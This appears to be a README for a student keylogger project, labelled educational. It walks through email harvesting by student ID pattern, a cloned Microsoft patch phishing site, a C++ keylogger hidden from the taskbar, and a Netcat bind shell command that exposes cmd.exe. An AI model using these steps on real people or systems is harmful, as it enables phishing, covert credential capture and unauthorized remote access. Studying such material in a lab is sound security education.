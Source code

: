 # keylogger

Disclaimer: This project is for educational purposes only. 

The project consists of three stages, reconnaissance, phishing, and attack, respectively. During the recon stage, the attacker collects target email addresses and uses ARP scan to obtain target IPs. Next, during the phishing stage, the attacker sends phishing emails that contain the link of the phishing website (fake Microsoft website in our case) to the victims. The downloader in the phishing website will redirect to the link of malware. If the victims follow the instructions, that is, download and run the .bat file (contains malware actually), the executable will start logging the keystrokes and create a backdoor shell. So the attacker can use the backdoor to retrieve a log file that contains some sensitive data. You can check the [slide](https://docs.google.com/presentation/d/1gPKOFa4L5iZNUBC93aRHLyo68CuBljt5r5G959ol310/edit?usp=sharing) for the further information. 

![](https://github.com/chuang76/keylogger/blob/main/figure/arch.png?raw=true)



## Requirement

- Virtualbox 5.2.18
- Kali Linux 64-bit VM
- Windows Server 2016 VM, which security protection is disabled (i.e., no firewall and antivirus software)
- Visual Studio C++ build tools 
- Netcat 



## How to use

### Recon

1. Target email addresses: According to the NCKU student ID number rule, we can collect a number of email addresses that end with @gs.ncku.edu.tw. For example, the student ID number which starts with "F7409" means the student majors in computer science and is enrolled in 2020. 

2. Target IPs: Since the attacker and victims are in the same subnet, we can use the `arp-scan` command in the Kali machine to execute the scanning, then parse the information to get target IPs. 

   ```
   $ sudo arp-scan -local 
   ```

### Phishing 

Microsoft exchange server vulnerability is one of the serious issues in 2021. Microsoft then released the patches to tackle the vulnerability. Our idea is to create a fake Microsoft patching website and cheat the victims to download the fake patch, which is malware actually.  

1. Phishing email: Warn the victims there may be a Microsoft exchange server vulnerability in his/her computer and lead the victims to access the phishing website. 

2. Phishing website: Use DriveToWeb service to host the phishing website, which is the same as the Microsoft official patching website, except for the instructions and the downloader. 

### Keylogger

The keylogger is based on Windows programming with C++. The keylogger keeps tracking keystrokes with the WinAPI `GetAsyncKeyState()` and logging the typed information as a file. Besides, the keylogger is hidden from the taskbar with the WinAPI `ShowWindow()` and the parameter `SW_HIDE`. For detailed information, please check the Windows app developer documentation. 

### Backdoor shell

Netcat is a useful networking tool. However, it is not secure. In our case, we use Netcat to create a backdoor shell. So we can retrieve the logging file which contains some sensitive information. 

1. Victim

   ```
   $ nc -l -p <port number> -t -e cmd.exe
   ```

2. Attacker

   ```
   $ nc <victim IP> <port number>
   ```

   

## Result

Here are some snapshots. 

The left is the official Microsoft patching website, while the right is the phishing website. 

![](https://github.com/chuang76/keylogger/blob/main/figure/phishing.png?raw=true)

Launch the keylogging attack successfully as follows, the left is the attacker and the right is the victim. 

![](https://github.com/chuang76/keylogger/blob/main/figure/result.png?raw=true)
